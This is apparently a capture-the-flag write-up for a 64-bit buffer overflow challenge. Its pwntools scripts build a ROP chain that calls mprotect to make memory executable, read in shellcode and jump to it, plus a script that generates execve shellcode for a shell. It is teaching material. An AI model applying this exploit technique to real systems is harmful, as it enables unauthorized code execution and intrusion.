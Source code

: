 In my 32-bit solution, a stack pointer was conveniently found in one of the registers, but not so in this case. Fortunately the binary's addresses don't change, so I just have to call mprotect on it to make it executabe, read my shellcode into said memory, and then return to it to get a shell. 

```python
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*40

# make location 0x6b6000 to 0x6b8000 RWX using mprotect
# mprotect:
#   rax: 0xa
#   rdi: unsigned long start
#   rsi: size_t len
#   rdx: unsigned long prot

buf += p64(0x40159b)        # pop rdi; ret; 
buf += p64(0x6b6000)        # unsigned long start
buf += p64(0x432f29)        # pop rdx; pop rsi; ret; 
buf += p64(7)               # unsigned long prot
buf += p64(8192)            # size_t len
buf += p64(0x414796)        # add eax, 5; ret; 
buf += p64(0x414796)        # add eax, 5; ret; 
buf += p64(0x4546b5)        # syscall; ret; 

# read shellcode into 0x6b6000
# read:
#   rax: 0x0
#   rdi: unsigned int fd
#   rsi: char *buf
#   rdx: size_t count

buf += p64(0x40159b)        # pop rdi; ret; 
buf += p64(0)               # unsigned int fd
buf += p64(0x432f29)        # pop rdx; pop rsi; ret; 
buf += p64(30)              # size_t count
buf += p64(0x6b6000)        # char *buf
buf += p64(0x43168d)        # pop rax; ret; 
buf += p64(0)               # sys_read
buf += p64(0x4546b5)        # syscall; ret; 

buf += p64(0x6b6000)        # return to read-in shellcode
print buf
```

I also created a python script to send an execve shellcode to the binary when it calls read:

```python
from pwn import *
context(os="linux", arch="amd64")
print asm(shellcraft.linux.sh())
```
